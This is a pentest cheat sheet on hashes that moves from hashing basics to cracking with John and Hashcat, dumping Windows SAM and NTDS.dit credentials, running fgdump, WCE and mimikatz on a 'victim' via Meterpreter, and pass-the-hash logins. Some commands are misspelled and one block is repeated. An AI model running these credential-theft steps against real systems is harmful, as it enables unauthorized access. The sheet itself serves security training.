 ```yaml
---
title: Hashes and basic criptography
excerpt: "This is a guide for hashes in linux and windows"
last_modified_at: 13-01-2022
categories:
- cheatsheet
tags:  
- pentest
- exploitation
- hashes
image: /assets/images/cheatsheet/hashes.jpeg
---
```


### Examples
```bash
echo -n "teste" | md5sum
3b16dc694c38d04f7d7451cc37d3c654  -
```

```bash
echo -n "teste" | sha256sum 
a0ec927b1044a5e945fbd9cf4370b4be1bc1ebc93bca51bc37f02a8814196bde  -
```

```bash
md5sum teste.txt
2dc6bdf12b1b886e5e2f3a72f4fb2293  teste.txt
```  

### One way x Two way

- One way: Hash without reverse, only way to break is brute force

- Two way: Base64 is a example is possible to do the reverse.

### Hash lenght
- md5: 32 characters
- sha1: 40 characters
- sha256: 64 characters
- sha512: 128 characters

## Linux
### Indentify hashes
```bash
hash-identifier 3b16dc694c38d04f7d7451cc37d3c654
```  

### Linux hashes
Are in /etc/shadow.  
In this format: $id$salt$encrypted
- id: Mehtod type: 1 = md5, 5 = sha256, 6 = sha512
- salt: Random information to help to protect the hash.
- encypted: Its the hash with salt.
    - kali:$y$j9T$GLYvBrczFiXmyft7hxEwX/$ev6ucG67u9pWBLvf7b1WoUTRQMXUDoK5gtuzUOQDU73:18819:0:99999:7::: : Use yescrypt($y$), derivate from originals functions.

### Decrypt
#### Worldlists
- /usr/share/wordlists/rockyou.txt
- /usr/share/john/password.lst  

#### John the ripper
```bash
jonh hash 
jonh —format=Raw-MD5 —wordlist=rockyou.txt
```  
#### Hashcat
```bash
hashcat -m 100 hash /usr/share/john/password.lst —force
```  


## Windows  
**SAM  -Security Account manager(Windows)** : User accounts.
- %SystemRoot%/system32/config/sam  

**NTDS.NIT(Windows server/Active directory)** : Active directory include users..
- %SystemRoot%/ntds/ntds.dit  

**SYSTEM**: System file, use do decrypt sam/ndts.dit
- %systemroot%/system32/config/system  

### Hash
usser:id:LM(LAN MANAGER):NTLM(NT LAM MANAGER) 
- ids: 500-adm:501-guest, 1000:helpassistant,1005:user
- LM: If begin with aa and finish ee (always equal), not used == empty.  


### Old Windows
```bash
reg save hklm\sam samcopy
reg save hklm\system systemcopy


samdump2 samcopy systemcopy # Show hashes

impacket-secretdump -sam samcopy -system systemcopy LOCAL # Better
```  

### Modern/Active directory
```bash
vssadmin create shadow /for=c:
copy "volumecreated"\windows\ntds\ntds.dit c:\ntds.dit
copy "volumecreated"\windows\system32\config\ c:\system1222

impacket-secretdump -ntds ntds.dit -system system1222 LOCAL
```  
### In cache
Meterpreter
```bash
upload /usr/share/windows-binaries/fgdump/fgdump.exe # Upload do victim
fgdumpe.exe # Execute will create cachedump e pwdump

upload /usr/share/windows-resources/wce/wce-universal 
wce-universal.exe -w # Will get the passwords

load mimikatz # Meterpreter module
wdigest # Cache and more
```  

```bash
vssadmin create shadow /for=c:
copy "volumecreated"\windows\ntds\ntds.dit c:\ntds.dit
copy "volumecreated"\windows\system32\config\ c:\system1222

impacket-secretdump -ntds ntds.dit -system system1222 LOCAL
```   

#### John the ripper
```bash
john —format=nt —wordlist=/usr/share/wordlists/rockyou.txt hashlist —show 
john —format=lm —wordlist=/usr/share/wordlists/rockyou.txt hashlist —show 
```  

### Pass the hash*
It's possible use the hash.
```bash
pth-winexe -U john%"hash" //172.16.1.60 cmd.exe
exploit/windows/smb/psexec #SMB pass the hash
```